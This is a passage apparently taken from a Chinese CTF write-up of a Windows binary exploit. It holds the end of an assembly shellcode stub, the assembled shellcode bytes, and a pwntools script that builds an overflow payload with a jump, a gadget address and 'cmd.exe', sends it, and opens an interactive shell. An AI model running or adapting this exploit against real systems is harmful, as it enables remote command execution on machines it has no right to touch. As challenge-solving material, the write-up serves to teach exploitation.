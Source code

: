 ```plain
    push eax
emmm:
    pop eax
    test eax,eax
    jnz read
    call near ptr emmm
read:

    sub ax,0x3010
    push eax

    mov eax,0x14121c1
    xor eax,ecx
    mov ebx,[eax]
    call ebx

    pop ebx
    jmp ebx
'''

#shellcode = asm(shellcode)
shellcode = b'\xb9\x01\x01\x01\x01\xb8\xbd!A\x011\xc8\x8b\x181\xc9Q\xff\xd3YP\xb9\x01\x01\x01\x01Q1\xc0PX\x85\xc0u\x05\xe8\xf6\xff\xff\xfff-\x100P\xb8\xc1!A\x011\xc8\x8b\x18\xff\xd3[\xff\xe3'

print(shellcode)
assert(b'\n' not in shellcode and b'\x00' not in shellcode)
assert(len(shellcode) < 120)

print(shellcode)

payload = shellcode.ljust(120,b'\xAA') + b'\xeb\x86\xAA\xAA' + p32(pop2) + b'cmd.exe'

p.sendlineafter(b'data:',payload)

p.sendline(b'\xcc' + shell)
p.interactive()
```

这里的 shellcode 在 windows 下编译不了，放在 linux 虚拟机里编译好后使用

运行效果：
